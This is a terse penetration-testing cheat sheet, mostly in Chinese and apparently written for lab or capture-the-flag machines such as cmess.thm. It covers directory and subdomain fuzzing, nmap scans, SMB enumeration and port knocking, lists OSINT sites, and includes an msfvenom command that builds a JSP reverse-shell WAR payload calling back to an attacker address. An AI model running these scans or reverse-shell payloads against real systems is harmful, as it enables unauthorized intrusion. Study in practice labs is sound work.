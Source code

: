 枚举网站路径
```
feroxbuster -w

dirb -w

gobuster -w -u -X

dirsearch -w -u
```

枚举子域名

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm/' -H "HOST: FUZZ.cmess.thm"
```

全端口快速扫描
```
nmap -T4 -sS -Pn -p-
```

tcp
```
nmap -sCV -sT -Pn -A
```

udp
```
nmap -sCV -sU -Pn -A

```

Smb 服务枚举
```
smbclient -l \\ip
```

```
# 指定用户
smbclient -U qiu \\\\192.168.61.137\\qiu
```


ssh敲门
```
nc -z
```

Msfvenom 制作 payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.61.135 LPORT=8888 -f war -o shell.war
```


**There are some specialized tools that we can utilize but for this introduction, it is good to know the following tools.** 

- **Google (specifically Google Dorking)**
- **Wikipedia**
- **PeopleFinder.com**
- **who.is**
- **sublist3r**
- **hunter.io**
- **builtwith.com**
- **wappalyzer**